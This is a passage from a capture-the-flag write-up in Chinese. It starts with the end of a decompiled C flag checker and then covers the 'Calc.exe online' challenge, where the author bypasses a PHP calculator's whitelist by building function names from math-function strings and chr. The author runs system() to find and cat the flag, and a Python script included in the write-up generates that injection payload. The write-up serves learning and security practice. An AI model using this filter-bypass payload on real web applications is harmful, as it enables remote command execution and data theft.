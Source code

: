 ```c
                (var1[(long)var3]) = ((unsigned char)(var9 ^ ((int)(secret[((unsigned long)var10) % strlen(&(secret[0]))]))));
                var3 = (((int)var3) + ((int)1));
                goto block9;
            } else {
                printf(&(format[0]), &(var1[0]));
                return 0;
            }
        }
    }
}

int main(void) {
    for(int i = 0; i < 128; i++) {
        solve(i);
        answer(str);
    }
}
```

# Calc.exe online
不久之後casper把verilog(flag checker)給做出來了
我也弄出來說`sin[0]`會跑出s這個字串（不記得是google還是試出來的了）
然後Google發現大概是webshell這個主題，接著又找到可以用`('system')()`之類的方法執行函數，我就照著找到的東西試試看`('phpinfo')()`，
然後真的跑出東西了XD
但是我很多字元弄不出來，後來查到可以用`chr`這個函數，就能成功湊出所有的字元啦！
不過我不知道flag在哪裡，所以執行了`('system')('find / -name "flag*')`找到flag在哪裡，最後執行了`('system')('cat /flag*')`得到flag的內容
下面是我最後拿來湊出字元的腳本

```python
good = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh', 'ncr', 'npr', 'number_format']

mp = {}
for s in good:
    for j in range(len(s)):
        if s[j] not in mp or len(mp[s[j]]) > len(s)+2+len(str(j)):
            mp[s[j]] = s + '[' + str(j) + ']'

# print(mp)

def solve(s):
    ret = ''
    first = True
    for c in s:
        if not first:
            ret += '.'
        first = False
        if c not in mp:
            ret += f'(({solve("chr")})({ord(c)}))'
        else:
            ret += mp[c]
    return ret


# print('(' + solve('system') + ')' + '(' + solve('find / -name flag*') + ')') # call ('system')('ls')
print('(' + solve('system') + ')' + '(' + solve('cat /flag*') + ')') # call ('system')('ls')
```